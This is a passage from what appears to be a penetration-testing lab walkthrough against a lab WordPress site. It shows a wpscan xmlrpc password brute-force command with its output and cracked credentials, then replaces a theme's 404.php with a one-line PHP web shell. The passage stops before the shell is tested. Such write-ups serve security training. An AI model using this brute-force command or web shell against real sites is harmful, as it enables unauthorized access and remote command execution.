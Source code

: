 Answer is:

```
frank.mclane
```

### Getting RCE
---

Now, our next step would be getting RCE, for this, we need some credentials, let's try brute forcing `erika`'s password:


```
wpscan --password-attack xmlrpc -t 50 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

We get the following:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - erika / 010203                                                                             
Trying erika / kitkat Time: 00:00:20 <                         > (700 / 14345092)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203

```

Got our credentials:

```
`erika`:`010203`
```

Now, let's log in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220144626.png)

Now we're in the admin panel, let's change the theme to a web shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220144824.png)

Let's change the contents of `404.php` to:

```php
<?php

system($_GET['cmd']);
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220144836.png)

Nice, now we need to use curl to check if the webshell works:
